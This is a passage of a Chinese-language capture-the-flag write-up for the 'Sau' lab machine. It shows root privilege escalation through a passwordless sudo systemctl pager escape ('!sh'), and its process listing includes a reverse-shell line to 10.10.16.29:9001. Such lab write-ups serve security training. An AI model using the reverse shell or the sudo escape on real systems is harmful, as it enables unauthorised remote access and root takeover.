 ### Shell Escape Sequences - sudo环境下的systemctl提权

可以发现有一条命令sudo执行是不要密码的，先尝试直接运行看看——输出了一堆像是进程命令的记录到屏幕……

在[GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo)上面搜 `systemctl` 也会很容易发现有sudo时的提权方式，但是由于我运行命令后似乎是所有结果都输出到了屏幕，然后直接回到prompt模式，所以我并不能按照它说的执行“!sh”进行提权。

又仔细看看[GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo)里的内容，注意到下面写了句“This invokes the default pager, which is likely to be less, other functions may apply.”。  
于是琢磨这个 `less`，既然less能翻页。那么提权失败是不是因为没有调用出所谓的“default pager”，所以之前运行命令才会一堆结果直接输出到屏幕？而没有调用“default pager”给我使用，可能是因为当前不是交互shell？

于是转为交互式shell之后再次尝试，果然就正常了。提权也按照[GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#sudo)里的内容，十分简单：
```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
     Active: active (running) since Sun 2023-07-09 05:26:40 UTC; 2h 13min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 889 (python3)
      Tasks: 93 (limit: 4662)
     Memory: 186.2M
     CGroup: /system.slice/trail.service
             ├─  889 /usr/bin/python3 server.py
             ├─  960 /bin/sh -c logger -p auth.info -t "maltrail[889]" "Failed >
             ├─  964 /bin/sh -c logger -p auth.info -t "maltrail[889]" "Failed >
             ├─  968 bash
             ├─  969 bash -c bash -i >& /dev/tcp/10.10.16.29/9001 0>&1
             ├─  970 bash -i
             ├─  981 /bin/sh -c logger -p auth.info -t "maltrail[889]" "Failed >
             ├─  982 /bin/sh -c logger -p auth.info -t "maltrail[889]" "Failed >
             ├─  984 bash
             ├─  985 bash -i
             ├─  997 python3 -c import pty;pty.spawn("/bin/bash")
             ├─  998 /bin/bash
             ├─ 4311 /usr/bin/systemctl status trail.service
             ├─ 4312 pager
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
```


## flag: root

```bash
# pwd
/opt/maltrail
# cd
# ls
go  root.txt
# cat root.txt
be4f……86de
```

---